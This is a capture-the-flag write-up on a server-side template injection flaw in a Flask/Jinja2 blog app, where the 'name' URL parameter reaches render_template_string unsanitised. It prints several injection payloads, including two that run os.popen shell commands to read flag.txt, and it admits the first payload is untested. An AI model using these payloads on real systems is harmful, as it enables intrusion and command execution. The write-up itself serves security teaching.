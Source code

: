 # Why Hello There - SSTI Vulnerability
**Description**: 
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

## Introduction

Server-Side Template Injection (SSTI) is a vulnerability that allows an attacker to inject malicious templates into a web application, potentially leading to Remote Code Execution (RCE) or information disclosure. SSTI vulnerabilities arise when user input is dynamically inserted into templates and then rendered by the server-side template engine without proper sanitization or validation.

In this challenge, we explore an SSTI vulnerability within a Flask web application. Flask is a popular Python web framework that includes support for Jinja2 templating. Jinja2 is powerful but can be susceptible to SSTI if not properly secured.

## Challenge Overview

The provided source code defines a simple Flask application serving a blog-like website. The application uses the `render_template_string` function from Flask, which dynamically renders templates based on user input. This function is used to customize a greeting message with the visitor's name, which is retrieved from URL parameters.

### Vulnerability Analysis

The critical line in the application is where `render_template_string` is used:

```python
name = request.args.get('name', 'CTF Player')
return render_template_string(f'''
...
<p>Hello {name}! This is a place where I share my thoughts and experiences.</p>
...
''')
```

The `name` parameter from the URL is inserted directly into the template. Since there is no sanitization of the `name` parameter, an attacker can exploit this by injecting a template syntax that can be executed by the server.

### Exploiting SSTI in Flask

To exploit this vulnerability, an attacker can craft a payload that the Jinja2 template engine will execute. Since the challenge specifies that this is a Windows machine, the goal is to read the contents of `flag.txt`.

A common approach to achieve this is to leverage Jinja2's ability to access Python's built-in attributes and functions through the template. An attacker can use this capability to execute arbitrary Python code.

#### Payload to Read `flag.txt`

The payload to exploit this SSTI vulnerability and read the contents of `flag.txt` on a Windows machine might look something like this:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}
```

This payload works by accessing Python's built-in attributes to open and read a file. The steps are as follows:

1. `''.__class__.__mro__[2]` accesses the `object` base class.
2. `__subclasses__()` lists all subclasses of `object`, where one of them is typically the `file` class or a class that can be used to open files.
3. The index `[40]` (which might need adjustment based on the Python environment) is assumed to be the class that can open files.
4. `('flag.txt').read()` attempts to open `flag.txt` and read its contents.

### Conclusion

This challenge demonstrates the critical importance of sanitizing and validating all user inputs, especially when those inputs are used within template engines like Jinja2 in Flask applications. SSTI vulnerabilities can lead to significant security risks, including unauthorized access to sensitive data and system command execution. Always ensure user inputs are handled securely to prevent such vulnerabilities.
note: The code above is not tested, but the payload is something along those lines.

I.e.,
```
https://MACHINE_IP:10000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
OR

```
http://MACHINE_IP:10000/?name={{config.__class__.__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen(%27type%20flag.txt%27).read()}}
```
![alt text](image.png)